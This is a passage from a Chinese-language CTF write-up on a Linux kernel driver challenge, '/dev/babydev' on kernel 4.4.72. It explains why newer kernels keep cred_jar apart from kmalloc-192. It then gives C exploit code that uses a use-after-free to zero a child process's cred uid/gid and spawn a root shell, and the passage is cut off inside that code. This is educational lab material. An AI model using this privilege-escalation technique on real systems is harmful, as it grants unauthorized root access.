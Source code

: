 
### Old Solution

这道题在当年的解法是**通过 UAF 修改该进程的 cred 结构体的 uid、gid 为0**，十分简单十分白给。

但是**此种方法在较新版本 kernel 中已不可行，我们已无法直接分配到 cred\_jar 中的 object**，这是因为 cred\_jar 在创建时设置了 `SLAB_ACCOUNT` 标记，在 `CONFIG_MEMCG_KMEM=y` 时（默认开启）**cred\_jar 不会再与相同大小的 kmalloc-192 进行合并**

> 来自内核源码 4.5 `kernel/cred.c`
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> }
> ```
>
> 本题（4.4.72）：
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> }
> ```

因此这里考虑介绍更加通用的解法，对旧的解法感兴趣的可以参考如下exp：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    ioctl(fd1, 0x10001, 0xa8); /* object to be reused as the child's cred */
    close(fd1);

    int pid = fork();

    if(pid < 0) {
        printf("\033[31m\033[1m[x] Unable to fork.\033[0m\n");
        return -1;
    }
    else if(pid == 0) { /* the child to get the UAF cred */
        char buf[30];

        memset(buf, '\0', sizeof(buf));
        write(fd2, buf, 28);  /* overwrite uid&gid to 0 directly */

        if(getuid() == 0) {
            puts("\033[32m\033[1m[+] Successful to get the root.\033[0m\n");
            system("/bin/sh");
            return 0;
```